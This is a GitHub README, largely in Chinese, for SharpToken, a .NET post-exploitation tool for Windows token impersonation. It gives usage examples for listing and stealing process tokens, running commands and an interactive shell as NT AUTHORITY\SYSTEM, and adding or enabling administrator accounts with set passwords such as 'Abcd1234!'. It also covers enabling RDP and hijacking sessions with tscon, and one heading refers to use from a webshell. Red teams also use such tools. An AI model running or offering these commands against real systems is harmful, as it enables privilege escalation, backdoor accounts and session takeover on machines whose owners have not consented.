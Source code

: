 # SharpToken


.NET版本的incognito

![image](https://user-images.githubusercontent.com/43266206/188081018-8717b066-1143-48b8-b62b-31360316cce1.png)


## Usage

```
SharpToken By BeichenDream
=========================================================

Github : https://github.com/BeichenDream/SharpToken

Usage:

SharpToken COMMAND arguments

COMMANDS:

	list_token [process pid]	

	list_all_token [process pid]

	add_user    <username> <password> [group] [domain]

	enableUser <username> <NewPassword> [NewGroup]

	delete_user <username> [domain]
    
	execute <tokenUser> <commandLine> [Interactive]

	enableRDP

	tscon <targetSessionId> [sourceSessionId]


example:
    SharpToken list_token
    SharpToken list_token 6543
    SharpToken add_user admin Abcd1234! Administrators
    SharpToken enableUser Guest Abcd1234! Administrators
    SharpToken delete_user admin
    SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
    SharpToken execute "NT AUTHORITY\SYSTEM" cmd true
    SharpToken tscon 1


```


## 枚举Token

枚举的信息包括SID,LogonDomain,UserName,Session,LogonType,TokenType,TokenHandle(Duplicate后的Token句柄),TargetProcessId(Token来源的进程),TargetProcessToken(Token在源进程的句柄)，Groups(Token用户所在组)

```
SharpToken list_token
```

![image](https://user-images.githubusercontent.com/43266206/176751244-dd8f8899-59ec-48e5-9bee-464c0e146573.png)

## 从指定进程枚举Token

```
SharpToken list_token 468
```

![image](https://user-images.githubusercontent.com/43266206/176753494-3c6df1cb-5d14-4b36-aa61-ca68a8c38009.png)



## 获得交互式shell

```
execute "NT AUTHORITY\SYSTEM" cmd true
```

![image](https://user-images.githubusercontent.com/43266206/176751714-c7edb21c-f0be-4794-a14f-be4a7b1fdf61.png)

## 获取命令执行结果(webshell下执行)

```
SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
```

![image](https://user-images.githubusercontent.com/43266206/176751980-dd9413f4-1a4d-4cb0-8ba2-5e0b9ccb2eed.png)
